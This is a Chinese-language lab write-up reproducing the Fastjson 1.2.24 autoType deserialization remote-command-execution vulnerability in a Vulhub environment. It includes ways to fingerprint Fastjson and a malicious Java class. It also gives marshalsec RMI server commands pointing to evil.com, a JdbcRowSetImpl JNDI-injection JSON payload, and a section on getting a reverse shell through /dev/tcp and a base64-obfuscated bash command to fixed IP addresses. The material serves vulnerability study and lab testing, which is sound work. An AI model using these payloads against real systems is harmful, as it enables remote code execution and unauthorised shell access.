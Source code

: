 # Fastjson 1.2.24 反序列化导致任意命令执行漏洞

## 漏洞描述

Fastjson在解析json的过程中，支持使用autoType来实例化某一个具体的类，并调用该类的set/get方法来访问属性。通过查找代码中相关的方法，即可构造出一些恶意利用链。

参考资料：

- https://www.freebuf.com/vuls/208339.html
- [http://xxlegend.com/2017/04/29/title-%20fastjson%20%E8%BF%9C%E7%A8%8B%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96poc%E7%9A%84%E6%9E%84%E9%80%A0%E5%92%8C%E5%88%86%E6%9E%90/](http://xxlegend.com/2017/04/29/title- fastjson 远程反序列化poc的构造和分析/)

## 环境搭建

Vulhub运行测试环境：

```
docker-compose up -d
```

环境运行后，访问`http://your-ip:8090`即可看到JSON格式的输出。

![image-20220223111249998](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202231112044.png)

我们向这个地址POST一个JSON对象，即可更新服务端的信息：

```
curl http://your-ip:8090/ -H "Content-Type: application/json" --data '{"name":"hello", "age":20}'
```

## 如何判断一个站点是否存在Fastjson？

- 参考文章：https://zeo.cool/2020/07/04/%E7%BA%A2%E9%98%9F%E6%AD%A6%E5%99%A8%E5%BA%93!fastjson%E5%B0%8F%E4%BA%8E1.2.68%E5%85%A8%E6%BC%8F%E6%B4%9ERCE%E5%88%A9%E7%94%A8exp/

**方式1 响应时间**

正常数据响应时间（29毫秒）：

![image-20220223141118979](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202231411062.png)

存在Fastjson时，16进制数据响应时间明显变长（396毫秒）：

![image-20220223140820884](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202231408972.png)

**方式2 DNSlog**

最新版本1.2.67依然可以通过dnslog判断后端是否使用fastjson

```
{"@type":"java.net.Inet4Address","val":"dnslog"}
{"@type":"java.net.Inet6Address","val":"dnslog"}
```

## 漏洞复现

因为目标环境是Java 8u102，没有`com.sun.jndi.rmi.object.trustURLCodebase`的限制，我们可以使用`com.sun.rowset.JdbcRowSetImpl`的利用链，借助JNDI注入来执行命令。

首先编译并上传命令执行代码，如`http://evil.com/TouchFile.class`：

执行`javac TouchFile.java`，生成`TouchFile.class`。

```java
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"touch", "/tmp/success"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```

然后我们借助[marshalsec](https://github.com/mbechler/marshalsec)项目，启动一个RMI服务器，监听9999端口，并制定加载远程类`TouchFile.class`。

```
$ git clone https://github.com/mbechler/marshalsec.git
$ mvn clean package -DskipTests
$ cp ./target/marshalsec-0.0.3-SNAPSHOT-all.jar /home/kali/vulnerability/vulhub/fastjson/1.2.24-rce
```

```shell
$ java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://evil.com/#TouchFile" 9999
```

![image-20220223122416137](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202231224191.png)

向靶场服务器发送Payload，带上RMI的地址，注意Content-Type应该是`application/json`：

```
POST / HTTP/1.1
Host: your-ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 160

{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://evil.com:9999/TouchFile",
        "autoCommit":true
    }
}
```

![image-20220223122432463](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202231224531.png)

可见，命令`touch /tmp/success`已成功执行：

![image-20220223122451321](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202231224373.png)

### 反弹shell

同样，执行`javac TouchFile.java`，生成`TouchFile.class`。

```java
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"/bin/bash","-c","exec 5<>/dev/tcp/192.168.174.128/9999;cat <&5 | while read line; do $line 2>&5 >&5; done"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```

也可以使用bash base64的方式：

```java
String[] commands = {"bash", "-c","{echo, YmFzaCAtaSA+JiAvZGV2L3RjcC8xMDEuNDMuMTQ3LjEyNy85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}"}
```

启动一个RMI服务器，监听8888端口，并制定加载远程类`TouchFile.class`：

```
$ java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://evil.com/#TouchFile" 8888
```

发送POST请求包：

```
POST / HTTP/1.1
Host: 192.168.174.128:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 165

{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://192.168.174.128:8888/TouchFile",
        "autoCommit":true
    }
}
```

监听9999端口，接收反弹shell：

![image-20220223125747062](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202231257183.png)
